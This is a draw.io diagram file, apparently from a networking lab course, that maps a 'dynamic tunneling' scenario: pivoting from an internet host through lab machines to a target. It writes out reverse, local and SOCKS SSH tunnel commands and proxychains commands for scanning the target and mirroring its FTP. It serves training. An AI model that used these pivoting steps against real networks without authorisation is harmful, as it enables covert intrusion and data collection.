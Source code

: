 <mxfile version="16.5.6" type="github">
  <diagram id="JSSCa7bkJR9PmikTlj4o" name="Page-1">
    <mxGraphModel dx="1888" dy="547" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="n44jxtcjX1VwuFWqTyCD-2" value="&lt;span style=&quot;color: rgb(0 , 0 , 0) ; text-align: left&quot;&gt;from IH: proxychains ./scan.sh&lt;/span&gt;&lt;br style=&quot;color: rgb(0 , 0 , 0) ; text-align: left&quot;&gt;&lt;br style=&quot;color: rgb(0 , 0 , 0) ; text-align: left&quot;&gt;&lt;span style=&quot;color: rgb(0 , 0 , 0) ; text-align: left&quot;&gt;proxychains wget -r ftp://10.2.0.2&lt;/span&gt;" style="shape=step;perimeter=stepPerimeter;whiteSpace=wrap;html=1;fixedSize=1;align=center;fillColor=#f5f5f5;fontColor=#333333;strokeColor=#666666;" vertex="1" parent="1">
          <mxGeometry x="-100" y="340" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--4" value="" style="endArrow=none;dashed=1;html=1;rounded=0;" parent="1" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="439.5" y="410" as="sourcePoint" />
            <mxPoint x="439.5" y="90" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--1" value="Internet Host&lt;br&gt;IP: 10.10.0.40" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-60" y="215" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--2" value="Tools" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" parent="1" vertex="1">
          <mxGeometry x="-20" y="180" width="40" height="20" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--3" value="T3: Atropia&lt;br&gt;Internal: 10.3.0.10&lt;br&gt;External: 10.50.29.96" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="380" y="210" width="120" height="70" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--5" value="EXTERNAL" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" parent="1" vertex="1">
          <mxGeometry x="160" y="80" width="80" height="20" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--6" value="INTERNAL" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" parent="1" vertex="1">
          <mxGeometry x="585" y="80" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--7" value="T4: Pineland&lt;br&gt;IP: 10.50.21.23" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="785" y="215" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--8" value="TARGET:&lt;br&gt;10.2.0.2" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#fff2cc;strokeColor=#d6b656;" parent="1" vertex="1">
          <mxGeometry x="1020" y="215" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--11" value="Access" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" parent="1" vertex="1">
          <mxGeometry x="820" y="180" width="50" height="20" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--13" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--7" target="2QfLTyrHY2M2lkCo5Ux--8" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="400" y="220" as="sourcePoint" />
            <mxPoint x="450" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--17" value="31101" style="whiteSpace=wrap;html=1;aspect=fixed;fillColor=#ffe6cc;strokeColor=#d79b00;" parent="1" vertex="1">
          <mxGeometry x="480" y="270" width="40" height="40" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--18" value="22" style="whiteSpace=wrap;html=1;aspect=fixed;fillColor=#ffe6cc;strokeColor=#d79b00;" parent="1" vertex="1">
          <mxGeometry x="770" y="270" width="40" height="40" as="geometry" />
        </mxCell>
        <mxCell id="NB2bITlko3CDhN9ZFZkT-1" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--14" target="2QfLTyrHY2M2lkCo5Ux--17" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="530" y="245" />
              <mxPoint x="530" y="290" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--14" value="Telnet into T4 then&lt;br&gt;ssh -R 31101:localhost:22 net3_student11@10.3.0.10 -NT" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;align=left;" parent="1" vertex="1">
          <mxGeometry x="540" y="215" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--19" value="" style="endArrow=none;html=1;rounded=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--7" target="2QfLTyrHY2M2lkCo5Ux--14" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="785" y="245" as="sourcePoint" />
            <mxPoint x="500" y="245" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--21" value="1" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fillColor=#d5e8d4;strokeColor=#82b366;" parent="1" vertex="1">
          <mxGeometry x="530" y="200" width="30" height="30" as="geometry" />
        </mxCell>
        <mxCell id="NB2bITlko3CDhN9ZFZkT-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--22" target="2QfLTyrHY2M2lkCo5Ux--17" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="360" y="245" />
              <mxPoint x="360" y="290" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NB2bITlko3CDhN9ZFZkT-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=0;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--22" target="2QfLTyrHY2M2lkCo5Ux--28" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--22" value="from IH: ssh net3_student11@10.50.29.96 -L 31102:localhost:31101 -NT" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;align=left;" parent="1" vertex="1">
          <mxGeometry x="100" y="215" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--24" value="2" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fillColor=#d5e8d4;strokeColor=#82b366;" parent="1" vertex="1">
          <mxGeometry x="90" y="200" width="30" height="30" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--29" value="&lt;h1&gt;Scenario: Dynamic Tunneling&lt;/h1&gt;&lt;span&gt;We can access T4 as an insider (but only via Telnet, not SSH)&lt;/span&gt;&lt;br&gt;&lt;span&gt;We want to access information on TARGET via SSH tunneling&lt;/span&gt;&lt;br&gt;&lt;span&gt;Tools are on out internet host but access comes from T4: Pineland&lt;br&gt;We want to get all the way to target, but we don&#39;t know what ports are open so we need a dynamic tunnel&amp;nbsp;&lt;/span&gt;" style="text;html=1;strokeColor=none;fillColor=none;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" parent="1" vertex="1">
          <mxGeometry y="460" width="380" height="120" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--31" value="from IH: ssh ssh net3_student11@localhost -p 31102 -D 9050 -NT" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;align=left;" parent="1" vertex="1">
          <mxGeometry x="490" y="330" width="220" height="60" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--37" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--31" target="2QfLTyrHY2M2lkCo5Ux--8" edge="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="550" y="260" as="sourcePoint" />
            <mxPoint x="600" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NB2bITlko3CDhN9ZFZkT-4" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.75;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="2QfLTyrHY2M2lkCo5Ux--28" target="2QfLTyrHY2M2lkCo5Ux--31" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="69" y="330" />
              <mxPoint x="460" y="330" />
              <mxPoint x="460" y="360" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--28" value="31102" style="whiteSpace=wrap;html=1;aspect=fixed;fillColor=#ffe6cc;strokeColor=#d79b00;" parent="1" vertex="1">
          <mxGeometry x="39" y="263" width="40" height="40" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--39" value="3" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fillColor=#d5e8d4;strokeColor=#82b366;" parent="1" vertex="1">
          <mxGeometry x="480" y="320" width="30" height="30" as="geometry" />
        </mxCell>
        <mxCell id="2QfLTyrHY2M2lkCo5Ux--43" value="4" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fillColor=#d5e8d4;strokeColor=#82b366;" parent="1" vertex="1">
          <mxGeometry x="-110" y="330" width="30" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
